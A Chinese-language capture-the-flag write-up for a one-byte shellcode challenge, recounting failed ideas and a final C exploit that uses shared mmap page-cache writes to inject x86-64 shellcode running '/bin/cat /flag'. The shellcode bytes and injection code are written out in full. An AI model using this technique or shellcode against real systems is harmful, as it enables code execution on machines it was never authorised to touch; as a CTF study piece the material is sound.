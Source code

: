 ## 壹...壹字节？

这题我尝试了很久，最后一天才试出来。不过做出后就索然无味了，知识点非常具体，大概也没什么意外解法吧。但总共只有10个人解出，是我做出来的题目中完成人数最少的。还是写一下探索过程吧。

### 测试所有1字节

写了个脚本测试所有可能的 256 个字节值。大部分是 segmentation fault 或者 illegal instruction，少数例外是：

- c2 / c3 即 `RET` 指令，会正常返回，没有错误；
- cc 即 `INT3` 指令，会触发 SIGTRAP 退出程序；
- ca / cb / cf 会导致 kernel panic。

所以真的只用1字节 shellcode 是做不出来的。

我花了很多时间思考这几个例外情况有什么可利用的，不成功思路包括：

- 受 `INT3` 启发，想到用 `ptrace` 追踪父进程，但父进程 `clone` 的时候开了 PID namespace，似乎没办法 attach 上；
- 子进程在 PID namespace 里是 PID 1 的进程，考虑有没有特殊操作绕开 SIGKILL，但也没找到什么方法，并且从 `man pid_namespaces` 了解到 PID 1 进程被杀后 _The kernel terminates all of the processes in the namespace via a SIGKILL signal_；
- 根据 kernel panic 的信息，内核是 5.19.9 版本，相当新，应该也没啥漏洞可利用。

### 操纵文件大小？

另一个思考的方向是，能不能创建一个 `st_size > 1`，但 `fstat` 读出来 size = 1 的文件。

软链接本身的 size 是指向路径长度决定的，指向1个字节文件名就能得到 `st_size = 1` 的软链接。但 `pwn.c` 中 `open` 时已经 follow 了软链接，`fstat` 并不会读到软链接本身的大小。

还考虑了有没有可能创建一个超大的 sparse file，使得 `st_size` 无法表示其大小而溢出。查到 64 位系统上 `st_size` 是64位有符号整数，但通过 `ftruncate` 能创建的最大文件大小也就局限在 `INT64_MAX` 了：

```
$ truncate -s 9223372036854775807 bigfile
$ ls -lh bigfile
-rw-r--r-- 1 cuihao cuihao 8.0E Oct 30 09:16 bigfile
$ truncate -s 9223372036854775808 bigfile
truncate: Invalid number: ‘9223372036854775808’: Value too large for defined data type
```

### 回到 mmap

最后解法就同官方题解，自己发现了 `mmap` 没写回的页面修改仍然会被 cache 并且影响其他进程，以此注入超过1字节的 shellcode：

```
#include <string.h>
#include <fcntl.h>
#include <unistd.h>
#include <signal.h>
#include <sys/mman.h>

const unsigned char shellcode[] = "H1\xc0PH\xbb/bin/catSH\x89\xe7H\xbb/flag\x00\x00\x00SH\x89\xe3PSWH\x89\xe6H1\xd2\xb0;\x0f\x05";
// xorq   %rax, %rax
// pushq  %rax
// movq   $0x7461632f6e69622f, %rbx
// pushq  %rbx
// movq   %rsp, %rdi  # (%rdi) = /bin/cat
// movq   $0x67616c662f, %rbx
// pushq  %rbx
// movq   %rsp, %rbx  # (%rbx) = /flag
// pushq  %rax
// pushq  %rbx
// pushq  %rdi
// movq   %rsp, %rsi
// xorq   %rdx, %rdx
// movb   $0x3b, %al
// syscall

int main() {
    int fd = open("shellcode", O_RDWR | O_CREAT, (mode_t)0600);
    write(fd, "\x90", 1);
    fsync(fd);

    char *buf = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_SHARED, fd, 0); 
    
    memcpy(buf + 1, shellcode, sizeof(shellcode));

    return 0;
}
```

